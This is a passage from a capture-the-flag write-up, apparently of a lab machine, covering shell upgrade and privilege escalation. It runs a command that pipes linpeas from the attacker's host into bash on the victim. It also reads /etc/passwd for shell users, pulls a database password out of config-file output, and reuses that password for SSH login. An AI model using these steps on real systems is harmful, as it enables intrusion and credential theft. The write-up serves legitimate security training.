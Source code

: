 Worked like a charm. Stubborn as I am, I'm not using the python3 -c blabla, but opted to go with `script -qc /bin/bash /dev/null`, less typing! Not depending on python! Same result!

## Privilege escalation

Now, as you can see, www-data is still not a regular user. I quickly scanned for users on this box that have an actual shell with `cat /etc/passwd | grep 'sh$'`. Let's keep those in mind.

Since looking for privilege escalation is beyond the capacity of my brain to memorize, let's us a tool to do that. Download the latest and greatest linpeas https://github.com/peass-ng/PEASS-ng/releases/download/20240707-68b6f322/linpeas.sh

First. Serve linpeas from my local box on port 80, using `python -m http.server 80`


```
# python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.23 - - [14/Jul/2024 17:39:37] "GET /linpeas.sh HTTP/1.1" 200 -
```


Next on the victim machine, as www-data, execute linpeas. This below also creates a log in /tmp as linp.log:


```
curl -s http://10.10.14.4/linpeas.sh | bash 2>&1 | tee /tmp/linp.log

```

There's a ton of information from linpeas. This here is the most interesting stuff, a database password in Linpeas' output!


```
╔══════════╣ Searching passwords in config PHP files
'show_password_field' => false,
'show_password_field' => true,
'wget_password' => '',
'force_different_password' => false,
$_configuration['auth_password_links'] = [
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
$_configuration['password_encryption'] = 'bcrypt';
/*$_configuration['password_requirements'] = [
//$_configuration['email_template_subscription_to_session_confirmation_lost_password'] = false;
//$_configuration['force_renew_password_at_first_login'] = true;
//$_configuration['password_conversion'] = false;
'password' => $_configuration['db_password'],
$form->addElement('password', 'pass1', get_lang('Pass'), ['size' => 40, 'disabled' => 'disabled']);
```
...

It took me quite a while to figure this out (GG), but it's possible to use the plaintext db_password to login as mtz using ssh! Yep, that's password-reuse... Epic! Here below added a cat command to ssh to grab the flag:
